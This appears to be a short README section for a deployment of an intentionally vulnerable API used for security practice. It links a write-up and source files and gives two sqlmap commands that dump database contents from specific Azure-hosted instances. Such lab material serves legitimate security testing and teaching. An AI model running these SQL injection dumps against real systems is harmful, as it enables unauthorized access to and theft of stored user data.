 ### Example
Install the rest client extension in VS Code (https://marketplace.visualstudio.com/items?itemName=humao.rest-client) , and use the users.http script.
More background info can be found here ; https://blog.held.codes/vampi-vulnerable-api-write-up-and-walk-through-3cce519e5e96
Also check api_vies/users.py & models/user_model.py

### SQL Injection test
Install sqlmap, and then execute the following
* sqlmap -u "https://kvaesvampiinsecure.azurewebsites.net/users/v1/*admin*" --method=GET --dump
* sqlmap -u "https://kvaestestvampi-g3dsbehwaghrgadx.b01.azurefd.net/insecure/users/v1/*admin*" --method=GET --dump
